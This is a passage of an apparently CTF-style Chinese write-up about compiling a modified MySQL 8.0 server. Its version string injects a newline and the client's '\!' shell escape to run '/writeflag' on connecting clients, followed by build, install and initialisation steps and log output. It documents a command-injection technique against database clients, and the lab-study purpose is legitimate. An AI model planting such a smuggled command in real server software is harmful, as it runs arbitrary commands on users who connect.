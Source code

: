```
#ifndef LICENSE
#define LICENSE                     GPL
#endif /* LICENSE */

#endif /* _mysql_version_h */
```

执行命令的位置为

```
#define MYSQL_SERVER_VERSION       "8.0.0-injection-test\n\\! /writeflag"
```

修改成要执行的命令之后，开始编译

```
mkdir build
cd build
cmake .. -DDOWNLOAD_BOOST=1 -DWITH_BOOST=../boost
make -j$(nproc)
```

我的服务器太烂了，编译了五个小时还编译失败了

所以后面在本地用wsl编译完后再上传到服务器上

![image-20250221003432941](../assets/image-20250221003432941.png)

本地编译的时候最好使用与服务器相同的路径

不然install的时候会报错，很麻烦

加下来在服务器上安装编译好的mysql

安装

```
sudo make install
```

创建⽤⼾组

```
sudo groupadd mysql
sudo useradd -r -g mysql -s /bin/false mysql
```

初始化

```
sudo /usr/local/mysql/bin/mysqld --initialize --user=mysql --
basedir=/usr/local/mysql --datadir=/usr/local/mysql/data
```

初始化信息


```
basedir=/usr/local/mysql --datadir=/usr/local/mysql/data
2025-02-20T16:35:47.430647Z 0 [System] [MY-013169] [Server] /usr/local/mysql/bin/mysqld (mysqld 8.0.0-injection-test \! /writeflag) initializing of server in progress as process 557354
2025-02-20T16:35:47.483565Z 1 [System] [MY-013576] [InnoDB] InnoDB initialization has started.
2025-02-20T16:35:48.220016Z 1 [System] [MY-013577] [InnoDB] InnoDB initialization has ended.
2025-02-20T16:35:51.634311Z 6 [Note] [MY-010454] [Server] A temporary password is generated for root@localhost: #fq;t8<;j5AH
-bash: --datadir=/usr/local/mysql/data: No such file or directory
```
